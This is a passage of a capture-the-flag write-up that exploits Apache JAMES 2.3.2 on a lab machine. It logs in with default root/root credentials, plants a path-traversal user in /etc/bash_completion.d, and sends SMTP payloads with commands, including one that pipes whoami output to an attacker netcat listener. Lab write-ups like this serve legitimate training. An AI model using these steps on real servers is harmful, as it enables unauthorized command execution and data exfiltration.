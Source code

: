 ```bash
searchsploit james 2.3.2
searchsploit -x linux/remote/35513.py
# Authenticated User Remote Command Execution

telnet 10.10.10.51 4555
  root
  root
  adduser ../../../../../../../../etc/bash_completion.d exploit
  quit
```

<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have compromised the **JAMES** server I can connect to port **25** of the **SMTP** service and try to execute commands, but I have no success so far. I also don't capture packets with `tcpdump` if I try to send me a `ping` trace, so there is some problem with exploiting the vulnerability. I reanalyze the exploit and find that for the command to be executed, it needs the interaction of a valid user on the system, so I am going to look for another attack vector.

```bash
nc -nlvp 443
telnet 10.10.10.51 25
  ehlo team@team.pl
  mail from: <'@team.pl>
  rcpt to: <../../../../../../../../etc/bash_completion.d>
  DATA
  From: team@team.pl
  whoami|nc 10.10.14.14 443
  .
  quit

tcpdump -i tun0 icmp -n
telnet 10.10.10.51 25
  ehlo team@team.pl
  mail from: <'@team.pl>
  rcpt to: <../../../../../../../../etc/bash_completion.d>
  data
  From: team@team.pl
  [ "$(id -u)" == "0" ] && ping -c 2 10.10.14.14
  .
  quit
```
